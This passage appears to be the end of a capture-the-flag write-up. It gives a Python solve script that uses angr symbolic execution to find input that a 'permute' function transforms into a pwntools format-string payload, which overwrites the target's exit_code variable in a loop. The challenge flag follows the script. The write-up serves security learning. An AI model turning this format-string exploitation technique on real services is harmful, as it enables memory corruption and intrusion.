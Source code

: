 ```py
    payload_chars = [claripy.BVS("byte_%d" % i, 8) for i in range(0x200)]
    payload = claripy.Concat(*payload_chars + [claripy.BVV(b'\n')])
    payload_addr = 0

    s = p.factory.call_state(exe.sym['permute'], payload_addr,
            add_options=set.union(
                angr.options.unicorn,
                {
                    angr.options.LAZY_SOLVES,
                    angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY,
                    angr.options.ZERO_FILL_UNCONSTRAINED_REGISTERS,
                }))

    s.memory.store(payload_addr, payload)

    sim = p.factory.simgr(s)

    sim.explore(find=ret)

    fmt = fmtstr_payload(8, {exe.sym['exit_code']: code})

    payload_in = b""

    if sim.found:
        sol = sim.found[0]

        payload_out = sol.memory.load(
                payload_addr,
                len(fmt) + 1
                )

        sol.add_constraints(payload_out == fmt + b'\0')

        payload_in = sol.solver.eval(payload, cast_to=bytes)
    else:
        print("no solution")
        exit()

    io.sendafter(b"You have 60 seconds to provide input: \n", payload_in)
    io.recvline()

    nextc = io.recv(1)
    io.unrecv(nextc)

    if nextc != b'0':
        break

io.interactive()
```

## Flag

```
utflag{you_mix_me_right_round_baby_right_round135799835}
```
